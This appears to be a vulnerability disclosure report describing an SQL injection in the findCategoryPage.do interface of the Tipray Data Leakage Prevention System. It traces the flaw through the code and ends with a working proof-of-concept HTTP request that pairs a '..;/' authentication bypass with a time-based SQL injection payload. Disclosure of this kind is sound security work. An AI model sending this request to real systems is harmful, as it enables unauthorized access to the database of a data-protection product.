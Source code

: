 # SQL Injection Vulnerability in the findCategoryPage.do Interface of Tipray Data Leakage Prevention System

## Basic Overview
We have already learned about some basic information of the system developer and the reasons for authentication bypass in https://github.com/FightingLzn9/vul/blob/main/%E5%A4%A9%E9%94%90%E6%95%B0%E6%8D%AE%E6%B3%84%E9%9C%B2%E9%98%B2%E6%8A%A4%E7%B3%BB%E7%BB%9F-1.md.

To reduce your review burden, we will not repeat the details in this report.

## Vulnerability Analysis
We identified a sink point in `com.trwfe.controller.InvokerController#findCategoryPage`.

Based on the analysis in the above link, we know that the `PageVo` class is insecure and its parameters are controllable by external users.

<img width="1645" height="531" alt="image" src="https://github.com/user-attachments/assets/15608593-698e-48c5-9227-bc50c89ce1bd" />

Let’s trace the `findAllCategoryPage` method here.

<img width="1824" height="1045" alt="image" src="https://github.com/user-attachments/assets/27ad4801-5802-4ac5-97fa-feba420e928a" />

Continue to trace down to the mapper layer.

<img width="1951" height="565" alt="image" src="https://github.com/user-attachments/assets/bfc10f24-a89c-48fe-81c6-d2dbd4cc3417" />

Direct concatenation of parameters leads to SQL injection. The following Proof of Concept (PoC) can be constructed:

```
POST http://ip/trwfe/login.jsp/..;/invoker/findCategoryPage.do HTTP/1.1
Host: ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 15_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/18.3 Safari/605.1.15
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: JSESSIONID=BBE157F1DBA868496A6CB76724EA3D28
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 63

tenantId=1&sort=1+AND+(SELECT+1087+FROM+(SELECT(SLEEP(5)))JYfg)
```

<img width="1986" height="678" alt="image" src="https://github.com/user-attachments/assets/16e695a1-a4a6-4194-8645-7e62db959856" />

<img width="1885" height="826" alt="image" src="https://github.com/user-attachments/assets/872a17cb-f9d0-4282-b2b1-752e2086960b" />

The request successfully caused a delay, confirming that the `findCategoryPage.do` interface has an SQL injection vulnerability.

Thank you for your review. Wish you a pleasant day!
